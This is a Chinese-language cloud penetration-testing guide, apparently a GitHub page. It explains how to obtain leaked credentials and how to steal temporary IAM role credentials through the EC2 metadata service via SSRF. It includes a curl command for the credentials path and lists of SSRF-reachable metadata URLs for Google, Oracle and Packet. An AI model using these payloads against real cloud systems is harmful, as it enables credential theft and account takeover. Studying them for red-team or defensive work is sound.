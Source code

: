对于这类凭证信息的收集，一般可以通过以下几种方法进行收集：

- Github 敏感信息搜索
- 反编译目标 APK、小程序
- 目标网站源代码泄露

#### 元数据

元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 `/iam/security-credentials/<rolename>` 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404。

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了。一些价值较高的元数据：

```
ac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
```

**可以ssrf的常见元数据点：**

```
# packet
https://metadata.packet.net/userdata
```

```
# google
http://metadata.google.internal/computeMetadata/v1beta1/
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

```
# orcale
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```
